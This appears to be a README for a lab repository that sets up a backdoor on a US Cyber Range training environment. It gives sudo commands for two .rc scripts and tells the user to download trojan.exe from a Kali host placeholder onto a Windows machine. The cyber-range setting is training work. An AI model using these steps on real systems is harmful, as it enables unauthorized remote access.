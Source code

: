 # backdoor
Quickly create a backdoor on the US Cyber Range Dual Environment

Run the backdoor_script.rc with the following command:

sudo ./backdoor_script.rc

Then run the backdoor.rc script with the following command:

sudo ./backdoor.rc

Go to <Kali-IP-Address>/trojan.exe on the Windows Machine to open the backdoor
